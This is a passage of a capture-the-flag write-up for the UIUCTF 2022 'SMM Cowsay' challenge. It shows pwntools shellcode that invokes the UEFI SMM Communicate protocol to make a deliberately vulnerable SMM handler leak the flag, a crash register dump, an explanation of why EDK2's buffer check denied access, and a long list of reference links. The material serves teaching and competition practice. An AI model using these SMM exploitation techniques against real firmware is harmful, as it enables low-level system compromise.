 We can now craft a message for `SmmCowsay` containing a pointer to the flag and
let it print it for us by calling `mSmmCommunication->Communicate` with the
right arguments. We can see the layout of `EFI_SMM_COMMUNICATE_HEADER` using
`pahole` again, inspecting the UEFI Specification PDF, or looking at EDK2 source
code.

```python
# Taken from 0003-SmmCowsay-Vulnerable-Cowsay.patch
gEfiSmmCowsayCommunicationGuid = 0xf79265547535a8b54d102c839a75cf12

code = asm(f'''
    /* Communicate(mSmmCommunication, &buffer, NULL) */
    mov rcx, {mSmmCommunication}
    lea rdx, qword ptr [rip + buffer]
    xor r8, r8
    mov rax, {Communicate}
    call rax

    test rax, rax
    jnz fail
    ret

fail:
    ud2

buffer:
    .octa {gEfiSmmCowsayCommunicationGuid} /* Buffer->HeaderGuid */
    .quad 8                                /* Buffer->MessageLength */
    .quad 0x44440000                       /* Buffer->Data */
''')
conn.sendline(code.hex().encode() + b'\ndone')

# Check output to see if things work
conn.interactive()
```

Wait a second though. This code does not work!

```
Running...
!!!! X64 Exception Type - 06(#UD - Invalid Opcode)  CPU Apic ID - 00000000 !!!!
RIP  - 000000000517D120, CS  - 0000000000000038, RFLAGS - 0000000000000286
RAX  - 800000000000000F, RCX - 00000000000000B2, RDX - 00000000000000B2
...
```

We hit the `ud2` in the `fail:` label and got a nice register dump, because
`Communicate` returned `0x800000000000000F`: which according to the UEFI Spec
(Appendix D - Status Codes) means `EFI_ACCESS_DENIED`.

Indeed there is a gotcha: even though the challenge author explicitly added an
EDK2 patch to mark all all memory as RWX in the SMM page table
(`0005-PiSmmCpuDxeSmm-Open-up-all-the-page-table-access-res.patch`), there is
still a sanity check being performed on the SMM communication buffer,
[as we can see in EDK2 source code][edk2-buffer-check], which errors out if the
buffer resides in untrusted or invalid memory regions (like the one used for our
shellcode). *Thanks to YiFei for pointing this out since I had not actually
figured out the real reason behind the "access denied" when working on the
challenge*.


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31